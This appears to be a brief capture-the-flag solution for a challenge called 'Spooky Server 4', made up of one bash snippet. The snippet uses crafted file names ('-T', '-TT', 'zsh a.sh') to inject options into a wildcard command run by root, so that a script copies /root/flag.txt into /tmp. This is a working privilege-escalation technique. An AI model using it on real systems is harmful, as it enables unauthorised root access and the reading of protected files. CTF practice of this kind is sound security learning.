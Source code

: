 # Spooky Server 4
```bash
cd /tmp
echo "cat /root/flag.txt > /tmp/flag.txt" > backup/a.sh
cd backup
touch -- -T -TT "zsh a.sh"
```
